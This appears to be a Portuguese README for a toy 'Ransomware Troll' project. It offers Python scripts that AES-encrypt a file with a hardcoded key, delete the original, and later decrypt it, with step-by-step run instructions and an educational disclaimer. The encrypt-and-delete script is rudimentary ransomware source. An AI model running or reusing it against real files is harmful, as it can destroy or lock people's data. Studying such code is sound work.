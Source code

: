 # Documentação do Ransomware Troll

Esta documentação fornece informações sobre o Ransomware Troll, um programa de criptografia de arquivos malicioso, e mostra como descriptografar arquivos que foram afetados por ele. Este documento inclui uma descrição dos códigos base necessários para descriptografar e criptografar arquivos afetados pelo Ransomware Troll.

## Descrição

O Ransomware Troll é um tipo de malware que criptografa arquivos presentes em um sistema e exige um resgate para fornecer a chave de descriptografia. Os códigos apresentados aqui são soluções para descriptografar arquivos afetados pelo Ransomware Troll e também para criptografar arquivos usando o mesmo método de criptografia.

## Pré-requisitos

Antes de executar os códigos de descriptografia e criptografia, é necessário ter o Python instalado em seu sistema. Além disso, você deve ter a biblioteca `pyaes` instalada. Você pode instalá-la usando o comando `pip install pyaes`.

## Código de Descriptografia

Aqui está o código base que pode ser usado para descriptografar arquivos criptografados pelo Ransomware Troll:

```python
import os
import pyaes

## abrir o arquivo criptografado
file_name = "arquivo.txt.ransomwaretroll"
file = open(file_name, "rb")
file_data = file.read()
file.close()

## chave para descriptografia
key = b"testeransomwares"
aes = pyaes.AESModeOfOperationCTR(key)
decrypt_data = aes.decrypt(file_data)

## remover o arquivo criptografado
os.remove(file_name)

## criar o arquivo descriptografado
new_file = "arquivo.txt"
new_file = open(f'{new_file}', "wb")
new_file.write(decrypt_data)
new_file.close()
```

Certifique-se de substituir `"arquivo.txt.ransomwaretroll"` pelo nome do arquivo criptografado real que você deseja descriptografar e `"testeransomwares"` pela chave correta de descriptografia fornecida pelo atacante.

## Código de Criptografia

Aqui está o código base que pode ser usado para criptografar arquivos usando o Ransomware Troll:

```python
import os
import pyaes

file_name = "arquivo.txt"
file = open(file_name, "rb")
file_data = file.read()
file.close()

os.remove(file_name)

key = b"testeransomwares"
aes = pyaes.AESModeOfOperationCTR(key)

crypto_data = aes.encrypt(file_data)

new_file = file_name + ".ransomwaretroll"
new_file = open(f'{new_file}', 'wb')
new_file.write(crypto_data)
new_file.close()
```

Certifique-se de substituir `"arquivo.txt"` pelo nome do arquivo que você deseja criptografar e `"testeransomwares"` pela chave correta de criptografia. O código criptografará o arquivo selecionado e salvará uma versão criptografada com a extensão `.ransomwaretroll`.

## Instruções

Para descriptografar um arquivo afetado pelo Ransomware Troll, siga estas etapas:

1. Cert

ifique-se de ter instalado o Python em seu sistema.

2. Instale a biblioteca `pyaes` usando o comando `pip install pyaes`.

3. Copie o código de descriptografia fornecido acima e cole-o em um novo arquivo Python.

4. Abra o arquivo Python em um editor de texto e modifique a linha `file_name = "arquivo.txt.ransomwaretroll"` para corresponder ao nome do arquivo criptografado que você deseja descriptografar.

5. Verifique se a chave correta de descriptografia está definida na linha `key = b"testeransomwares"`. Se o atacante tiver fornecido uma chave diferente, atualize-a aqui.

6. Salve o arquivo Python com um nome adequado, por exemplo, `descriptografar.py`.

7. Abra o terminal ou prompt de comando e navegue até o diretório onde você salvou o arquivo Python.

8. Execute o arquivo Python digitando o seguinte comando: `python descriptografar.py`.

9. O código descriptografará o arquivo e removerá o arquivo criptografado original.

10. Verifique se o arquivo descriptografado foi criado corretamente.

Para criptografar um arquivo usando o Ransomware Troll, siga as mesmas etapas de 1 a 7 acima, mas substitua o código de descriptografia pelo código de criptografia fornecido. Certifique-se de fornecer o nome do arquivo que você deseja criptografar e a chave correta de criptografia. O arquivo criptografado será salvo com a extensão `.ransomwaretroll`.

**Nota:** É importante ressaltar que esta solução foi fornecida apenas para fins educacionais e de pesquisa, e não é incentivado o uso de ransomware ou atividades ilegais. A descriptografia de arquivos criptografados por ransomware só é possível se você tiver acesso à chave correta de descriptografia. Recomenda-se que você procure assistência de profissionais de segurança cibernética ao lidar com ataques de ransomware.
